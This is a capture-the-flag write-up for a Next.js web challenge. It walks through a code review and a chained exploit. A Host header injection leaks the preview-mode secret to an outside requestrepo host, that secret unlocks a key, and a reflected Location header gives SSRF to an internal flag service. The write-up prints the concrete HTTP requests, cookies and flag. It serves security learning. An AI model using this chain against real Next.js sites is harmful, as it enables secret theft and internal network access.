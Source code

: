 ```yaml
---
tags: 
references:
---
```

# Under Nextruction
Solves: 
Tags: #nextjs #header-injection #ssrf
## Road to flag
Given from the flag service
```python
@app.get("/get_flag")
def get_flag():
	if request.headers.get("X-Key") != environ.get("FLAG_STORE_KEY", "FAKE_KEY"):
		return jsonify({ "error": "Invalid X-Key value provided!" }, 403)

	return jsonify({ "flag": environ.get("FLAG") })

app.run("0.0.0.0", 5000)
```
## Code review
- In `next.config.js`, `trustHostHeader` is set
```js
const nextConfig =  {
	experimental: {
		trustHostHeader: true
	}
};
```
- `middleware.js`
```js
export async function middleware(request) {
	const parsedUrl = new URL(request.url);

	const sessionValue  = request.cookies.get("session")?.value;
	const verifiedSession = await verify(sessionValue);
	if ((!sessionValue || !verifiedSession) && parsedUrl.pathname !== "/login") {
		return NextResponse.redirect(new URL(`${baseUrl}/login`, request.url));
	}

	if (parsedUrl.pathname.startsWith("/api/")) {
		const requestHeaders = new Headers(request.headers);
		requestHeaders.set("X-User", verifiedSession.username);
		return NextResponse.next({ headers: requestHeaders });
	}
	return NextResponse.next();
}
```

- `user.js` - returns the flag store key if preview mode is enabled
```js
export default function handler(req, res) {
	if (!req.preview) {
		return res.status(403).json({
			error: "Must be in preview mode.",
			timestamp: new Date().toISOString(),
		});
	}
	const username = req.headers["x-user"];

	return res.status(200).json({
		username: username || null,
		timestamp: new Date().toISOString(),
		flagStoreKey: process.env.FLAG_STORE_KEY || "FAKE_KEY"
	});
}
```

- `/api/revalidate`
```js
export default async function handler(req, res) {
	try {
		await res.revalidate("/");

		return res.status(200).json({
			revalidated: true,
			timestamp: new Date().toISOString(),
			message: "Cache revalidated successfully",
		});
	} catch (err) {
		return res.status(500).json({
			revalidated: false,
			message: "Error revalidating cache",
			error: err.message,
		});
	}
}
```

### Next internals
- preview mode is set when the cookie `__prerender_bypass` is present with a valid value:
```js
const previewModeId = cookies.get('__prerender_bypass')?.value
const tokenPreviewData = cookies.get('__next_preview_data')?.value

// Case: preview mode cookie set but data cookie is not set
if (
	previewModeId &&
	!tokenPreviewData &&
	previewModeId === options.previewModeId
) {
	// This is "Draft Mode" which doesn't use
	// previewData, so we return an empty object
	// for backwards compat with "Preview Mode".
	const data = {}
	Object.defineProperty(req, SYMBOL_PREVIEW_DATA, {
		value: data,
		enumerable: false,
	})
	return data
}
```

- `revalidate` function: `previewModeId` leak
```js
async function revalidate(
  urlPath: string,
  opts: {
    unstable_onlyGenerated?: boolean
  },
  req: IncomingMessage,
  context: ApiContext
) {
  if (typeof urlPath !== 'string' || !urlPath.startsWith('/')) {
    throw new Error(
      `Invalid urlPath provided to revalidate(), must be a path e.g. /blog/post-1, received ${urlPath}`
    )
  }
  const revalidateHeaders: HeadersInit = {
    [PRERENDER_REVALIDATE_HEADER]: context.previewModeId,
    ...(opts.unstable_onlyGenerated
      ? {
          [PRERENDER_REVALIDATE_ONLY_GENERATED_HEADER]: '1',
        }
      : {}),
	}
	[...]

    if (context.trustHostHeader) {
      const res = await fetch(`https://${req.headers.host}${urlPath}`, {
        method: 'HEAD',
        headers: revalidateHeaders,
      })
```

## Exploitation

1. Getting the register next action id:
   The register route doesn't exist but a register action is present in the code.
   `/_next/static/chunks/app/login/page-0ca7abb07c5ac87c.js` shows the next actions id
```js
(0,l.createServerReference)("60fe59b2a3a5332a04013be125ebf9272e33e0a922",l.callServer,void 0,l.findSourceMapURL,
```

2. Enable preview mode to get the flag service key
	  - get preview mode id `GET /api/revalidate HTTP/1.1\r\nHost: cc426f7n.requestrepo.com`
	  - get flag store key: just add `__prerender_bypass=ID` to the cookies for the request to `/api/user`

3. SSRF to get the flag
   Set `Location: http://under-nextruction-flag:5000/get_flag` in the request, the header will be reflected in the response and the redirect will be triggered.
```http
GET /api/user HTTP/2
Host: cc426f7n.requestrepo.com
X-Key: 8fce97b0137965a3ddd635355eb3b1d249844c814c7981ade10dc201a329b457
Location: http://under-nextruction-flag:5000/get_flag
Cookie: session=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFmcXdlZmV3cmdlcndmZXJ3ZndyZSIsImlhdCI6MTc0NTE5MzkyMCwiZXhwIjoxNzQ1MjgwMzIwfQ.Ozle6otMW5nTmPYlTke2gSWmmlmwltmt9U1bT-CMuIw; __prerender_bypass=59c6709a1c2b39386a72b0026399960b


```

`FCSC{b2eac9d3dfbf0de3053beb63edec23df41b103c58a18b811ebd52d372d6f0cad}`